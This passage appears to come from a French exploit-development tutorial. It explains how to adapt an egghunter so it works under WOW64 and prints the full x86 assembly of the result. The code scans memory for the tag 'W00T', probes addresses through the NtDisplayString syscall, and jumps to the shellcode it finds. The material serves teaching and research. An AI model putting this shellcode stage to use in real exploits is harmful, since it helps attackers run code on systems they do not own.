 On y voit bien l'instruction qui provoque une erreur. Pour corriger cela, il va falloir pousser un argument supplémentaire (__rcx+4__) sur la stack. On va y mettre 0, et il faudra ensuite rétablir la stack une fois le call effectué. Les modifications sont comme suit:

```
loop_check:
        push    edx
        push 	ebx
        mov	bl, 0D6h
        push 	ebx
        pop     eax
        mov 	bl, 0C0h
        assume fs:nothing
        mov 	ebx,fs:[ebx]
        call 	ebx
        assume fs:error
        add 	esp, 4
        pop     edx
        cmp     al, 5
```

Le code final du __egghunter__ utilisant __NtDisplayString()__ est présenté ci-dessous:

```
loop_inc_page:
        or      dx, 0FFFh
 
loop_inc_one:
	xor 	ebx, ebx
        inc     edx
 
loop_check:
        push    edx
        push 	ebx
        mov	bl, 0D6h
        push 	ebx
        pop     eax
        mov 	bl, 0C0h
        assume fs:nothing
        mov 	ebx,fs:[ebx]
        call 	ebx
        assume fs:error
        add 	esp, 4
        pop     edx
        cmp     al, 5
        
loop_check_8_valid:
        je      loop_inc_page

is_egg:
        mov     eax, 77303074h ; W00T
        mov     edi, edx
        scasd
        jnz     loop_inc_one
        scasd
        jnz     loop_inc_one
 
matched:
        jmp     edi
```
